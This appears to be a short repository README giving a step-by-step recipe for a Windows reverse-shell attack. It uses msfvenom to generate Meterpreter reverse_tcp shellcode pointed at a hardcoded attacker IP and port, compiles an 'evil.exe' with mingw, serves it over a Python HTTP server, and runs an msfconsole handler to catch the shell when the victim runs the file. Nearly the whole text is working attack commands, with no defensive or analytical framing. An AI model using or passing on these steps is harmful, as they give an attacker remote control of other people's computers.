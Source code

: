 # Attacker server
- Create malicious shellcode by msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.138 LPORT=4444 -f c > shellcode.txt
```
- Create a malicious C++ file
- Compile exe file from C++ file:
```bash
x86_64-w64-mingw32-g++ -o evil.exe evil.cpp -static-libgcc -static-libstdc++
```
- Run listening server
```bash
python -m http.server 80
msfconsole -x "use exploits/multi/handler; set lhost 192.168.119.138; set lport 4444; set payload windows/x64/meterpreter/reverse_tcp; exploit"

```

# Victime machine
```bash
.\evil.exe
```